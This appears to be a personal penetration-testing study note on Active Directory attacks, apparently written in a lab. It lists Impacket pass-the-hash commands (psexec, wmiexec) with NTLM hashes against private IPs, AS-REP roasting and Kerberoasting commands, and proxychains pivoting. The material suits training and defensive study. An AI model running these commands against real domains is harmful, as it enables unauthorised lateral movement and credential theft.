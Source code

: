 # Attacks
- [[MySQL]]
- [[AS-REP Roasting]]
- [[Kerberoasting]]
- [[Domain Controller Synchronization]]
- [[Pass the Hash]]
- [[Shadow Copies]]
- [[Assembling the Pieces]]


- #### Cracking NTLM [[Impacket]]
- psexec.py
- wmiexec.py
- Using psexec.py
	- searches for a writable share and uploads an executable file to it. Then registers exe as Windows service & starts
- Using impacket-scripts to execute psexec.py
		- user friendly
		- upload .exe
		- leaves logs
	- impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
		- -hashes = hash
			- format = "LMHash:NTHash"
			- since we only use NTLM hash
				- fill LMHash section with (32) 0's
			- then username@ip
			- then command to execute
				- default or blank = cmd.exe
		- shell is always a SYSTEM user
- impacket-wmiexec
	- doesnt write to disk
	- can be used with pth-wmis for remote acces
	- ```
		impacket-wmiexec -hashes 00000000000000000000000000000000: 2a944a58d4ffa77137b2c587e6ed7626 maria@192.168.210.70
		``
#### Set up SMB relay server
- [[Responder]]

### AS-REP Roasting
- `impacket-GetNPUsers -dc-ip 192.168.200.70 -request -outputfile hashes.asreproast corp.com/pete`
#### Kerberoasting
- `sudo impacket-GetUserSPNs -request -dc-ip 192.168.200.70 corp.com/kevin`
### Pivoting
- `proxychains -q impacket-psexec -hashes 00000000000000000000000000000000:f0397ec5af49971f6efbdb07877046b3 beccy@172.16.6.240`
- `whoami;hostname;ipconfig`
